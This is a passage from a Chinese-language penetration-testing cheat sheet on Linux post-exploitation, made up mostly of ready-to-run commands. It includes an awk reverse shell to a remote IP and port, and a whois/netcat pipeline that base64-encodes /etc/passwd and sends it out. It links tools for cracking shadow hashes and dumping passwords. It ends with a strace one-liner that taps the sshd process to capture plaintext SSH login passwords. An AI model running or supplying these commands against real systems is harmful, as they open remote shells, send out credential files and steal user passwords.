### awk

```bash
awk 'BEGIN {s = "/inet/tcp/0/10.0.0.1/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

### whois

接收端
```
nc -vlnp 1337 | sed "s/ //g" | base64 -d
```

发送端
```
whois -h 127.0.0.1 -p 1337 `cat /etc/passwd | base64`
```

---

# 认证

**文章**
- [How to Crack Shadow Hashes After Getting Root on a Linux System](https://null-byte.wonderhowto.com/how-to/crack-shadow-hashes-after-getting-root-linux-system-0186386/)
- [Linux下的密码Hash——加密方式与破解方法的技术整理](https://3gstudent.github.io/3gstudent.github.io/Linux%E4%B8%8B%E7%9A%84%E5%AF%86%E7%A0%81Hash-%E5%8A%A0%E5%AF%86%E6%96%B9%E5%BC%8F%E4%B8%8E%E7%A0%B4%E8%A7%A3%E6%96%B9%E6%B3%95%E7%9A%84%E6%8A%80%E6%9C%AF%E6%95%B4%E7%90%86/)

**工具**
- [huntergregal/mimipenguin](https://github.com/huntergregal/mimipenguin) - 从当前 Linux 用户转储登录密码的工具
- [Hashcat](../../安全工具/Hashcat.md#爆破shadow文件)

## 口令抓取

当我们拿下 windows 机器时可以通过抓内存中的密码进行横向，但 linux 却不可能抓到内存中的密码，但是 Debian 系列下的 linux 系统可以通过监听 sshd 进程的数据抓取出明文密码，比如你拿下了一台管理员机器，上面由 xshell，你可以手动开一个监听，在开一个登录，监听的窗口上就抓出密码了
```bash
strace -xx -fp `cat /var/run/sshd.pid` 2>&1| grep --line-buffered -P 'write\(\d, "\\x00' | perl -lne '$|++; @F=/"\s*([^"]+)\s*"/g;for (@F){tr/\\x//d}; print for @F'|grep --line-buffered -oP '.{8}\K([2-7][0-9a-f])*$'|grep --line-buffered -v '^64$'|perl -pe 's/([0-9a-f]{2})/chr hex $1/gie'
```

实测 kali、ubuntu 都可以，centos 不行
